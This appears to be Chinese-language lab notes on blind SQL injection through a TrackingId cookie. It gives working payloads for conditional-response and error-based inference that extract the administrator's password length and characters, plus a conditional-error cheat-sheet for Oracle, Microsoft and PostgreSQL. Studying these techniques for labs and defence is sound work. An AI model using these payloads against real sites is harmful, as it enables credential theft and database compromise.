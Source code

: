 ### 觸發條件回應
#### 情境
* 網站透過 cookie 來檢查使用者狀況(有SQLi漏洞)，正常情況會在網頁上呈現 Welcome back。
* Request:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
* SQL Query
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
#### 作法
* 透過下列條件，如果條件為 True ('1'='1')，網站會回應 Welcome back，反之 False ('1'='2') 則不會回應 Welcome back。由此可判斷 True 或 False。
```
...xyz' AND '1'='1
...xyz' AND '1'='2
```
#### 取得密碼
* 有了上述方法來判斷 True/False，我們可以進一步檢查密碼長度與密碼。
* 修改 `LENGTH(password)>數字`，檢查密碼長度。
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
* 修改 `SUBSTRING(password,1,1) ... ='a'`，將密碼一個一個字拚湊出來。
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
### 觸發 SQL 錯誤
#### 情境
* 這次的情境是，用前面所提的觸發條件注入，但結果是沒有什麼變化，因此我們將透過觸發 SQL 錯誤，導致回應為 Internal Server Error (500)，來辨別 True 或 False。
#### 作法
* 透過 `SELECT CASE WHEN (條件)`，來決定是否觸發 1/0 ，來觸發SQL錯誤，進一步得知注入的結果是 True 或 False。
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
#### 取得密碼
* 有了上述方法來判斷 True/False，我們可以進一步檢查密碼長度與密碼。
* 修改 `LENGTH(password)>數字`，檢查密碼長度。
```
xyz' AND (SELECT CASE WHEN (LENGTH(password)>1) THEN 1/0 ELSE 'a' END FROM users WHERE username='administrator')='a
```
* 修改 `SUBSTRING(password, 1, 1)='a'`，將密碼一個一個字拚湊出來。
```
xyz' AND (SELECT CASE WHEN (SUBSTRING(password, 1, 1)='a') THEN 1/0 ELSE 'a' END FROM users WHERE username='administrator')='a
```
#### cheat-sheet
* Oracle
```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
```
* Microsoft
```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```
* PostgreSQL
```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
```